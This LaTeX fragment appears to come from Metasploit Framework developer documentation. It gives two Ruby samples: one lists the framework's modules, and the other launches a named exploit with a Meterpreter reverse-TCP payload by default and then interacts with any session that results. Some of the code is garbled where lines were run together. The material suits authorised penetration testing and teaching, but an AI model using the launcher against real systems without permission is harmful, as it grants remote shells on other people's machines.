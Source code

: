 \documentclass{report}
\begin{document}
\par
This sample demonstrates enumerating all of the modules in the
framework and displays their module type and reference name.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
  'lib'))

require 'msf/base'

framework = Msf::Simple::Framework.create

# Enumerate each module in the framework.
framework.modules.each_module { |name, mod|
   puts "#{mod.type}: #{name}"
}
\end{verbatim}}

        \subsection{Running an exploit using framework base}

\par
This sample demonstrates using the framework core directly to
launch an exploit.  It makes use of the simplified exploit wrapper
method provided by the Msf::Simple::Exploit mixin.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
   'lib'))

require 'msf/base'

if (ARGV.length == 0)
   puts "Usage: #{File.basename(__FILE__)} exploit_name payload_name OPTIONS"
   exit
end

framework    = Msf::Simple::Framework.create exploit_name =
ARGV.shift || 'test/multi/aggressive' payload_name = ARGV.shift ||
'windows/meterpreter/reverse_tcp' input        =
Rex::Ui::Text::Input::Stdio.new output       =
Rex::Ui::Text::Output::Stdio.new

begin
   # Initialize the exploit instance
   exploit = framework.exploits.create(exploit_name)

   # Fire it off.
   session = exploit.exploit_simple(
      'Payload'     => payload_name,
      'OptionStr'   => ARGV.join(' '),
      'LocalInput'  => input,
      'LocalOutput' => output)

   # If a session came back, try to interact with it.
   if (session)
      output.print_status("Session #{session.sid} created, interacting...")
      output.print_line

      session.init_ui(input, output)

      session.interact
   else
      output.print_line("Exploit completed, no session was created.")
   end

rescue
   output.print_error("Error: #{$!}\n\n#{$@.join("\n")}")
end
\end{verbatim}}
\end{document}
